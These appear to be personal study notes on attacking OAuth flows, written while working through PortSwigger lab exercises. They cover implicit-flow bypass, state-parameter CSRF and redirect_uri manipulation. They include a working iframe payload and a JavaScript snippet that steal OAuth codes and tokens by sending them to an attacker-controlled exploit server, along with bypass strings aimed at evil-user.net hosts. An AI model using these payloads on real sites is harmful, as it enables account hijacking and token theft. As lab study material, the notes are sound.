




## OAuth for... Authentication?
*(e.g. "Sign in with Google" to a third-party website)*
Whilst originally only intended for **authorisation**, OAuth 2.0 has evolved into an **authentication** method, with the main difference being how the **client application USES the data it receives.**
Ends up looking like a SAML-based SSO authentication flow:

1. **`User`** chooses to log in with social media account.
2. **`Client Application`** uses social media site's **`OAuth service`** to request an `access token` for **data that it can use to identify the `User`** *(e.g. email registered to the account).*
3. After **receiving an** `access token`**, the **`Client Application`** retrieves the user-identifying data from the **`OAuth Resource Server`** *(e.g. from a dedicated `/userinfo` endpoint).*
4. **`Client Application`** uses the data received from the **`OAuth Authorisation Server`** to log the **`User`** in - often being an **email** + the `access token` it received, instead of a password.

### [Lab](https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow): Authentication bypass via OAuth implicit flow
#Implicit-Grant #OAuth 
1. Turn proxy on, and observe the requests the occur as part of login process
2. Log in with your existing `weiner:peter` "social media" account credentials, and then intercept the `POST /authenticate` request that occurs once authenticated. This contains the information of the user that logged in, and passes it to the **`Client Application`** for it to use, alongside a valid `token`. 
3. Change these credentials to those of `carlos`, and observe that the **`Client Application`** implicitly trusts the `token` it receives to validate **any given user**, due to it being used as a substitute for a user/password combination. 
   
---

### OAuth Recon
- Identify specific OAuth provider from hostname
- Look up well-known endpoints to find documentation
- Try sending `GET` requests to well-known endpoints:
	- `/.well-known/oauth-authorization-server`
	- `/.well-known/openid-configuration`

#### Flawed CSRF protection - exploiting `state` parameter
#csrf #state
`state` parameter should contain a **randomly-generated value**, e.g. a hash of the something tied to the user's initial OAuth session. **Protects against performing actions on behalf of another user, i.e. `CSRF`.**

If no `state` parameter:
- Attackers could **initiate an OAuth flow themselves** before **tricking a user's browser into completing it**.
- More severe if **both password + OAuth login is possible**, as attackers could "force-link" a victim's account to their own social media account.

##### To "attach" an attacker's social media account to a victim's site account:
1. Initiate an OAuth flow via logging in to social media account, and linking it to your website account.
2. Determine where the OAuth flow sends the **linking code.** Will likely be in the `redirect_uri`.
3. Re-initiate the linking process, and find the subsequent request to the `redirect_uri` endpoint where the OAuth `code` is sent, intercept & copy it (`https://site.net/oauth-linking?code=jLly09emWe0d20`). **Ensure to drop the packet so the code remains valid!**
4. Coerce the victim into loading/clicking on this link, e.g. within an `<iframe>` on a page.
5. When viewed, the victim's logged-in account will be linked to the attacker's social media account associated with this OAuth code.

#### Failure to validate `redirect_uri`
#redirect_uri
Depending on grant type, a **code** or **token** is sent to the `/callback` endpoint specified in the `redirect_uri` parameter. If this isn't validated, an attacker can attempt to send this code to **their controlled server, & authenticating with it**.
	*Using `state` or `nonce` protection doesn't necessarily prevent these attacks, as an attacker can generate new values from their own browser.*
More secure servers require sending the `redirect_uri` when exchanging the code, and check it against the origin server.

#### Circumventing redirect protections:
- **Exploit discrepancies between the URI parsing** by different components of OAuth service, by appending extra values the default `redirect_uri` parameter.
  *e.g. `redirect_uri=https://default-host.com &@foo.evil-user.net#@bar.evil-user.net/`*
	- `@` - **Embeds credentials** to be sent to site, but often used in phishing to place legitimate-looking domains before the actual domain.
	- `#` - **URL fragment:** directs a browser to a specific section, anchor, or ID on a page without reloading it. Never sent to server & processed client-side.
- Test for **parameter pollution** - duplicate parameters, e.g. `redirect_uri=client-app.com/callback&redirect_uri=evil-user.net`
- **Circumvent whitelists** by adding/removing arbitrary paths, query parameters & fragments, as well as manipulating the domain (e.g. `https://expected-host.evil-host`).
	- **Try to point to other pages on the whitelisted domain** (could combine with path traversal, e.g. `https://client-app.com/oauth/callback/../../example/path`) and exploit vulnerabilities to catch & exfiltrate the code on those pages (e.g. embedded `XSS` to exfiltrate it).
	- **Use an Open Redirect as a proxy** to forward victims + `code`/`token` to an attacker-controlled domain hosting a malicious script. 
	  *If it's a `token`, as it's a completed/implicit form of authentication, can issue API calls to the OAuth service's resource server to retrieve sensitive info*
- **Manipulating the occasional special treatment/whitelisting of `localhost`**, by registering and using `localhost.evil-user.net` as a `redirect_uri`.
- **Combining any of the above**, or changing the `response_mode` (e.g. from `query` to `fragment`, or seeing if the `web_message` response mode is supported)
- **Attempt to **

#### Example - [Lab](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri):
Look for the `redirect_uri`, which will point & immediately redirect to an `oauth-callback` endpoint that receives the OAuth code & authenticates as the associated user.

Try changing `redirect_uri` to attacker-controlled server, and if it redirects, **is vulnerable to account hijacking via code redirection.**

To exploit victim, embed this `/auth?client_id=...` request within an `iframe` or similar, and coerce the victim into clicking/sending this request & initiating the OAuth flow with their logged-in social media account. This will send the `code` to the attacker's server specified in the `redirect_uri`.

`<iframe src="https://oauth-site.oauth-server.net/auth?client_id=eq8jjlazd87ifjvzekiy1&redirect_uri=https://exploit-0a5600b904dd0c4d82d40fc4015100e5.exploit-server.net/oauth-callback&response_type=code&scope=openid%20profile%20email"></iframe>`
Then, once the server receives this request with the `oauth_code` in the server access logs, copy the endpoint + code & authenticate (using a FRESH browser session) as the victim.



---

## Session Hijacking via OAuth Open Redirect ([Lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect))
#open-redirection #OAuth 
1. Identify the open-redirect, indicated by the `path` URL parameter, at:
    https://safe-site.net/post/next?path=https://exploit-server.net/exploit. Will allow redirecting to external domains.
2. As the `redirect_uri` in the OAuth flow has a whitelist that only permits the `safe-site.net` domain, can chain the **open-redirect and path traversal** together. By supplying a URL that crawls up the base `safe-site.net` domain with `/../` to access the page with the **open redirect**, we can send the victim to the attacker's exploit server.
   i.e. `redirect_uri=https://safe-site.net/oauth-callback/../post/next?path=https://exploit-server.net/exploit`
3. On the exploit server, host code that (1) briefly forces the victim to visit your malicious URL and (2) extracts their OAuth `token` from the URL hash value.
``` js
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```
4. When the attacker visits this page, they should be quickly redirected to your malicious OAuth URL, then back to the exploit page *with their OAuth access token inside the URL*.